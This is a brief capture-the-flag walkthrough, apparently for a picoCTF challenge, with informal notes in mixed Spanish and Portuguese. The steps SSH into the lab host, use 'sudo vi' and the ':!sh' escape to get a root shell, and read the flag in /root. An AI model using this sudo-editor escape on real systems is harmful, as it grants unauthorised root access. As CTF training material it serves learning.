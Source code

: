 1. ssh-p 49394 picoplayer@saturn.picoctf.net
2. root sudo -l
3. sudo vi
4. Nos meio dentro de un archivo bin  precionamos ":"
5. ":!sh"
6. #whoami
7. root
8. #cd ..
9. #ls
10. #cd ..
11. #ls
12. #cd root
13. #ls -lsf
14. #cat .flag.txt
